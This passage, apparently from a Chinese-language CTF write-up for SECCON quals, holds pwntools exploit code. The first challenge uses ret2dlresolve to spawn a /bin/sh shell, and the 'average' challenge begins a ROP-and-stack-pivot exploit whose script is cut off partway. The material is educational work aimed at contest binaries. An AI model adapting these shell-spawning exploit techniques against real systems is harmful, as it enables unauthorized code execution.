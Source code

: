 ```python

payload1 = b'A'*0x88
payload1 += p32(gets_plt) + p32(pop_ebx_ret) + p32(0x804c050)
payload1 += p32(push_linkmap) + p32(RELent_base) + p32(0xdeadbeef) + p32(sh)
r.sendline(payload1)

relent_data = p32(gets_got) + p32((SYMent_base_add_0xc << 8) + 7) + p32(0) # padding to 0xc
syment_data = p32(STR_base_add_0x1c) + p32(0) + p32(0) + p32(0x12)
str_data = b'system\x00\x00'
sh = b'/bin/sh\x00'
payload2 = relent_data + syment_data + str_data + sh
r.sendline(payload2)

r.interactive()
```



### average

```
// file
./average: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6d28335a3d6e903ecf2f8b35567f4339bc2e568a, for GNU/Linux 3.2.0, not stripped

// checksec
[*] '/home/u1f383/seccon/average/average'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

給的 libc version 為 **2.32-0ubuntu3**。



利用很簡單，就是堆 ROP + stack pivoting，而考點的部分我想應該是：透過編譯，變數實際上的位置不一定會跟想像中一樣，因此他雖然給 source，可是實際上變數排序並不與 source 上相同。exploit：

```python
#!/usr/bin/python3

from pwn import *
import sys

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

if len(sys.argv) > 1:
    r = remote('average.quals.seccon.jp', 1234)
else:
    #r = process('./average', env={"LD_PRELOAD": "./libc.so.6"})
    r = process('./average')

puts_got = 0x404018
printf_got = 0x404020
scanf_plt = 0x401070
puts_plt = 0x401030

new_stack = 0x404838
lld = 0x402008

pop_rdi_ret = 0x4013a3
pop_rsi_r15_ret = 0x4013a1
```